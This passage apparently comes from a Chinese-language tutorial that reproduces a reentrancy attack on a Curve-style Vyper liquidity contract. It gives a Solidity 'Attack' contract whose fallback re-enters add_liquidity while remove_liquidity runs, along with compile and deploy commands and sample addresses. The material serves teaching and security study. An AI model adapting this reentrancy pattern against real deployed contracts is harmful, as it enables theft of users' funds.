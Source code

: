 ```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.2 <0.9.0;

interface CurveContract {
    function add_liquidity() external;

    function remove_liquidity() external;
}

contract Attack {
    CurveContract public curve;

    constructor(address _curveContract) {
        curve = CurveContract(_curveContract);
    }

    function attack() external payable {
        curve.remove_liquidity();
    }

    fallback() external {
        curve.add_liquidity();
    }
}

```

#### 3.3部署曲线合同

```shell

mkdir -p ./build/contract

## build curve contract
vyper -f abi ./contracts/curve.vy > build/contract/CurveContract.abi && vyper ./contracts/curve.vy > build/contract/CurveContract.bin
 
## deploy contract
npm run contract:deploy -- --abi ./build/contract/CurveContract.abi  --bytecode ./build/contract/CurveContract.bin  --skfile ./curve_accounts.txt
```

可以从合同地址获得执行的结果，例如

```shell
...
--contractAccount 0xaa19F4957C890518b577205c41C706F1c07fa0cc --contractAddress 0xFe4b65F17554B45eF7D146B86E030da7A4e250bb
```

#### 3.4部署攻击合同

部署攻击合同时，将“ {curveaddress}”替换为真实的曲线合同地址
